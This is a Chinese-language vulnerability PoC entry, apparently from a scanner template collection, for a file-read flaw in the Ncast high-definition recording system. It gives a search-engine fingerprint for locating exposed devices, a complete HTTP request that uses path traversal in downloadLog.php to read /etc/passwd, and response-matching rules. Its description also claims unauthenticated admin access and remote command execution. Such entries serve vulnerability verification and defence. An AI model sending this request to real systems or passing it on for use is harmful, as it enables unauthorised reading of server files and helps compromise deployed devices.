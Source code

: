 ﻿# Ncast盈可视 高清智能录播系统 文件读取漏洞

> 更新时间：2024-05-07

> 漏洞编号：

> 漏洞说明：Ncast盈可视-高清智能录播系统可通过访客身份未授权访问 /manage/IPSetup.php 后台功能模块，攻击者可以利用该漏洞查看后台配置信息造成信息泄露，使用网络诊断功能模块可实现未授权远程命令执行，导致服务器失陷被控。

> 漏洞特征：app="Ncast-产品" && title=="高清智能录播系统"&&web.icon=="76e408df455fde9ec28aa2eb18ae499a"

> 验证脚本：HTTP

```
GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxx
Connection: close
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：Ncast盈可视 高清智能录播系统 文件读取漏洞.poc

